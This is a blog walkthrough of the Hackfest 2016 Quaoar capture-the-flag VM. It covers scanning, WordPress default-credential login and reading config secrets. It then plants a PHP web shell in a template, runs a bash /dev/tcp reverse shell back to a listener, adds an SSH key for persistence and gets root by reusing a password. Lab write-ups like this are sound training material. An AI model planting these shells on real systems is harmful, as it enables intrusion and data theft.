 ```yaml
---
layout: blog
title: Hackfest 2016 Quaoar box
date:   2017-03-22 01:42:00 +0100
categories: itsec
comments: true
---
```


This walkthrough is the first part of the [Hackfest 2016](https://hackfest.ca/en/) CTF challenge, you can find it also in [vulnhub](https://www.vulnhub.com/entry/hackfest2016-quaoar,180/). Honestly, I haven't heard about this conference yet, but it advertises itself as _Hackfest is the largest hacking event in Canada_ so I've decided to give it a try.


## Recon

```
sudo nmap -A -O 192.168.58.101
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 59m57s, deviation: 0s, median: 59m57s
|_nbstat: NetBIOS name: QUAOAR, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery:
|   OS: Unix (Samba 3.6.3)
|   NetBIOS computer name:
|   Workgroup: WORKGROUP\x00
|_  System time: 2017-03-21T19:20:11-04:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smbv2-enabled: Server doesn't support SMBv2 protocol

TRACEROUTE
HOP RTT     ADDRESS
1   0.78 ms 192.168.58.101

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.98 seconds
```

## Going in the front door
I usually like to go for the possibly low hanging fruits, so looking at the scan report, I can see an open Apache webserver. It's time to fire up dirbuster.
It found two interesting things, namely:
* http://192.168.58.101/upload/ - The start pages says, it is Lepton CMS, which I haven't met before, but after a quick google search, one can find 2 vulnerabilities:
	* [PHP Code Injection](https://www.exploit-db.com/exploits/40248/) - this one is during the installation process, which seems locked for a try, I haven't continued exploring it.
	* [Directory Traversal](https://www.exploit-db.com/exploits/40247/) - this one requires possibly user authentication, so it also seems non exploitable
I haven't really felt like playing with some unknown PHP CMS, and wasting my time for things which most probably I wouldn't ever use again, so I tried the other finding, which is Wotrdpress! Every time I see some Wordpress site coming up in a boot2root machine or CTF, I'm already pretty sure, that that's a possible entry point.
* http://192.168.58.101/wordpress/ - let's see what wpscan finds: ```wpscan --url http://192.168.58.101/wordpress/```
	* [!] Upload directory has directory listing enabled: http://192.168.58.101/wordpress/wp-content/uploads/
	* [!] Includes directory has directory listing enabled: http://192.168.58.101/wordpress/wp-includes/ 
	* [!] Title: WordPress 2.9-4.7 - Authenticated Cross-Site scripting (XSS) in update-core.php Reference: https://wpvulndb.com/vulnerabilities/8716
	* [!] Title: WordPress 3.4-4.7 - Stored Cross-Site Scripting (XSS) via Theme Name fallback Reference: https://wpvulndb.com/vulnerabilities/8718
	* [!] Title: WordPress 3.5-4.7.1 - WP_Query SQL Injection Reference: https://wpvulndb.com/vulnerabilities/8730
These might be useful, but after a quick research, I've decided to try go through the front door first, and enumerated the users with ```wpscan --url http://192.168.58.101/wordpress/ --enumerate u ```

```
[+] Identified the following 2 user/s:
    +----+--------+--------+
    | Id | Login  | Name   |
    +----+--------+--------+
    | 1  | admin  | admin  |
    | 2  | wpuser | wpuser |
    +----+--------+--------+
```
I could have used hydra to brute force the password of one of these, but it seems like this vm has a difficulty set to beginner for a reason, I've got in with the default admin:admin credentials. That was too easy:C

## Command execution and the first flag
First I've tried to look around, what we have there, by editing one of the templates with the following code:

```php
<?php
if($_GET['cmd']){
print("<pre>".shell_exec($_GET['cmd'])."</pre>"); die();
}
?>
```
I've tried several links, and looking through the filesystem, I've finally found the first flag!
* http://192.168.58.101/wordpress/?cmd=id
* http://192.168.58.101/wordpress/?cmd=ls
* http://192.168.58.101/wordpress/?cmd=ls /home
* http://192.168.58.101/wordpress/?cmd=cat%20/home/wpadmin/flag.txt

2bafe61f03117ac66a73c3c514de796e

* view-source:http://192.168.58.101/wordpress/?cmd=cat%20../upload/config.php
Also, I found the config file for the wordpress and for the other CMS file, but it was behind the php tags, so I actually had to view the source of the page to get something out of it. From that, I've got the mysql root user and password, which will be useful later. I've tried to check, but mysql wasn't running with root privileges, so I've abandoned this path for a while.

## Getting shell
With another template modification, I was able to get a reverse shell to connect back to my listening netcat: 
```
nc -lvp 4444
```
What I did was to insert
```php
<?php
file_put_contents("conn.sh", "bash -i >& /dev/tcp/192.168.58.102/4444 0>&1");
?>
```
to the template, and it would give me a shell in my running netcat, after visiting http://192.168.58.101/wordpress/?cmd=bash conn.sh.
I've inserted my ssh key to /var/www/.ssh/authorized_keys, and got ssh access to the box.

## Struggling trying to get root
I've spent some time playing with Samba, because it supposed to have a [remote code execution](https://www.owasp.org/index.php/Code_Injection), and I saw that it was running under root. After checking 
```searchsploit samba 3.6.3```
Samba 3.5.11/3.6.3 - Unspecified Remote Code Execution, which is [CE-2012-1182](https://www.cvedetails.com/cve/CVE-2012-1182/)
Unfortunately, neither the python script, which has been provided by searchsploit, not the metasploit module worked, so I had to find another way to get root.

## Getting root finally
I've decided to take a quick break, to get the frustration out, and I've had an idea during that. What if the mysql root password is the same as the UNIX root password? And it worked, so I've got the root flag too:)

```
root@Quaoar:~# cat flag.txt
8e3f9ec016e3598c5eec11fd3d73f6fb
```

Time to listen to some nice music:)

<iframe width="560" height="315" src="https://www.youtube.com/embed/2XiYUYcpsT4" frameborder="0" allowfullscreen></iframe>


